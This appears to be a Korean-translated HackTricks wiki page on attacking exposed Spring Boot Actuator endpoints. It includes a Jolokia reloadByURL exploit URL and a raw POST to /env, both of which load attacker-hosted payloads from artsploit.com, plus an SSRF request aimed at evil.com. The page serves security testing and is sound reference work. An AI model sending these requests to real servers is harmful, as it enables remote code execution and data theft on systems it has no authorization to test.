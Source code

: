 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**출처** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Spring Boot Actuators 악용하기

**원본 게시물 확인:** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **주요 사항:**

- Spring Boot Actuators는 `/health`, `/trace`, `/beans`, `/env` 등의 엔드포인트를 등록합니다. 1.0부터 1.4 버전까지는 이러한 엔드포인트에 인증 없이 접근할 수 있습니다. 1.5 버전부터는 기본적으로 `/health`와 `/info`만 비민감하지만, 개발자들이 종종 이 보안을 비활성화합니다.
- 특정 Actuator 엔드포인트는 민감한 데이터를 노출하거나 해로운 작업을 허용할 수 있습니다:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, 및 `/heapdump`.
- Spring Boot 1.x에서는 액추에이터가 루트 URL 아래에 등록되지만, 2.x에서는 `/actuator/` 기본 경로 아래에 있습니다.

### **악용 기술:**

1. **'/jolokia'를 통한 원격 코드 실행**:
- `/jolokia` 액추에이터 엔드포인트는 Jolokia 라이브러리를 노출하여 MBeans에 대한 HTTP 접근을 허용합니다.
- `reloadByURL` 작업은 외부 URL에서 로깅 구성을 다시 로드하도록 악용될 수 있으며, 이는 블라인드 XXE 또는 조작된 XML 구성을 통한 원격 코드 실행으로 이어질 수 있습니다.
- 예시 악용 URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **'/env'를 통한 구성 수정**:

- Spring Cloud 라이브러리가 존재하는 경우, `/env` 엔드포인트는 환경 속성 수정을 허용합니다.
- 속성은 Eureka serviceURL의 XStream 역직렬화 취약점을 악용하기 위해 조작될 수 있습니다.
- 예시 악용 POST 요청:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **기타 유용한 설정**:
- `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, 및 `spring.datasource.tomcat.max-active`와 같은 속성은 SQL 인젝션 또는 데이터베이스 연결 문자열 변경과 같은 다양한 악용을 위해 조작될 수 있습니다.

### **추가 정보:**

- 기본 액추에이터의 포괄적인 목록은 [여기](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt)에서 확인할 수 있습니다.
- Spring Boot 2.x의 `/env` 엔드포인트는 속성 수정을 위해 JSON 형식을 사용하지만, 일반 개념은 동일합니다.

### **관련 주제:**

1.  **Env + H2 RCE**:
- `/env` 엔드포인트와 H2 데이터베이스의 조합을 악용하는 방법에 대한 자세한 내용은 [여기](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)에서 확인할 수 있습니다.

2.  **잘못된 경로 이름 해석을 통한 Spring Boot의 SSRF**:
- Spring 프레임워크의 HTTP 경로 이름에서 행렬 매개변수(`;`) 처리는 서버 측 요청 위조(SSRF)를 악용할 수 있습니다.
- 예시 악용 요청:
```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{{#include ../../banners/hacktricks-training.md}}




{{#include /banners/hacktricks-training.md}}
